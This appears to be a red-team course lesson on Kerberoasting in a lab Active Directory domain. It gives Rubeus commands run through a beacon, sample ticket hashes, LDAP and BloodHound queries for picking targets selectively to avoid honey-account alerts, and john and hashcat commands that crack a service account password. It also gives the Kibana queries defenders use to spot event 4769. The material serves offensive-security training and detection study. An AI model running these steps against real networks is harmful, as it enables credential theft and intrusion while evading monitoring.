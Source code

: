 Services run on a machine under the context of a user account. These accounts are either local to the machine (LocalSystem, LocalService, NetworkService) or are domain accounts (e.g. DOMAIN\mssql).

A Service Principal Name (SPN) is a unique identifier of a service instance. SPNs are used with Kerberos to associate a service instance with a logon account, and are configured on the User Object in AD.

  

![](https://rto-assets.s3.eu-west-2.amazonaws.com/kerberos/spn.png)

  

Part of the TGS returned by the KDC is encrypted with a secret derived from the password of the user account running that service. Kerberoasting is a technique for requesting TGS’s for services running under the context of domain accounts and cracking them offline to reveal their plaintext passwords.

`Rubeus kerberoast` can be used to perform the kerberoasting.  Running it without further arguments will roast every account in the domain that has an SPN (excluding krbtgt).

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe kerberoast /simple /nowrap

[*] Action: Kerberoasting
[*] Searching the current domain for Kerberoastable users
[*] Total kerberoastable users : 2

$krb5tgs$23$*svc_mssql$dev.cyberbotic.io$MSSQLSvc/srv-1.dev.cyberbotic.io:1433*$[...hash...]
$krb5tgs$23$*svc_honey$dev.cyberbotic.io$HoneySvc/fake.dev.cyberbotic.io*$[...hash...]
```

  

This is pretty bad OPSEC.  Judging from the fake SPN set on the `svc_honey` account, we may have just wandered into a trap.  When a TGS is requested, Windows event `4769 - A Kerberos service ticket was requested` is generated.

You can find them in Kibana with:

```
event.code: 4769
```

  

Depending on how long your lab has been in use, there will be a _lot_ of events.  However, we can filter down to the specific account name:

```
event.code: 4769 and winlog.event_data.ServiceName : svc_honey
```

  

And this should return only one result - generated by the kerberoasting.  These types of honey traps is a common method for catching lazy tradecraft.  Because the SPN is not legitimate, it should never be in use and ergo, should never generate these events.  A blue team may configure automated alerting when suspicious activity is logged for a honey account.  You will see that the log also reveals the user who requested the TGS.

Other detection strategies such as volume analysis, i.e. a single account requesting tens/hundreds/thousands of TGS's in a single instant are also effective.

A much safer approach is to enumerate possible candidates first and kerberoast them selectively.  Simply searching (e.g. using custom LDAP queries) for accounts with SPNs will not trigger these 4769 events.

Find all users (in the current domain) where the **ServicePrincipalName** field is not blank.

```
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Debug\ADSearch.exe --search "(&(sAMAccountType=805306368)(servicePrincipalName=*))"

[*] No domain supplied. This PC's domain will be used instead
[*] LDAP://DC=dev,DC=cyberbotic,DC=io
[*] CUSTOM SEARCH: 
[*] TOTAL NUMBER OF SEARCH RESULTS: 2
    [+] cn : krbtgt
    [+] cn : MS SQL Service
    [+] cn : Honey Service
```

> Even though Rubeus does not include the `krbtgt` account, it can [sometimes](https://twitter.com/_wald0/status/1361720293539139589) be cracked.

You can also use BloodHound:

```
MATCH (u:User {hasspn:true}) RETURN u
```

  

And even extend that query to show paths to computers from those users:

```
MATCH (u:User {hasspn:true}), (c:Computer), p=shortestPath((u)-[*1..]->(c)) RETURN p
```

  

Once we feel safe about roasting a particular account, we can do so with the `/user` argument.

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe kerberoast /user:svc_mssql /nowrap

[*] Action: Kerberoasting

[*] Target User            : svc_mssql
[*] Searching the current domain for Kerberoastable users

[*] Total kerberoastable users : 1

[*] SamAccountName         : svc_mssql
[*] DistinguishedName      : CN=MS SQL Service,CN=Users,DC=dev,DC=cyberbotic,DC=io
[*] ServicePrincipalName   : MSSQLSvc/srv-1.dev.cyberbotic.io:1433
[*] PwdLastSet             : 5/14/2021 1:28:34 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT

[*] Hash                   : $krb5tgs$23$*svc_mssql$dev.cyberbotic.io$MSSQLSvc/srv-1.dev.cyberbotic.io:1433*$[...hash...]
```

  

Use `--format=krb5tgs --wordlist=wordlist svc_mssql` for **john** or `-a 0 -m 13100 svc_mssql wordlist` for **hashcat**.

```
root@kali:~# john --format=krb5tgs --wordlist=wordlist svc_mssql
Cyberb0tic       (svc_mssql$dev.cyberbotic.io)
```


 > I experienced some hash format incompatibility with john. Removing the SPN so it became: `$krb5tgs$23$*svc_mssql$dev.cyberbotic.io*$6A9E[blah]` seemed to address the issue.